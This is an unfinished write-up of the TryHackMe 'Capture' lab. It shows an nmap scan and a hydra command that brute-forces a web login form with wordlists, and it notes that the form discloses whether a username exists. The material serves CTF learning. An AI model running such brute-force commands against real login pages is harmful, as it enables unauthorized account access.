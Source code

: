 ```yaml
---
layout: post
title: "Capture"
date: 2023-06-17 
categories: ["Hands-on", "TryHackMe"]
tags: "TryHackMe","Python",
---
```


# Capture: Updating
> https://tryhackme.com/room/capture

I downloaded the zip file that contains the login usernames and password that will be used to brurteforce into the login form !

## Nmap
```bash
nmap -sS -Pn [ip]

PORT     STATE SERVICE VERSION
80/tcp   open  http
```

I opened the website and its a login page, tried the usual default usernames and passwords. I noticed that it does say if the username exists or not!


## Hydra

```bash
hydra -L usernames.txt -P passwords.txt "http-post-form://10.10.224.246/login:username=^USER^&password=^PASS^:Error"
```

I get the 'Too many bad login attempts' error message with a mathematical Captcha, for this we need to build a script!.




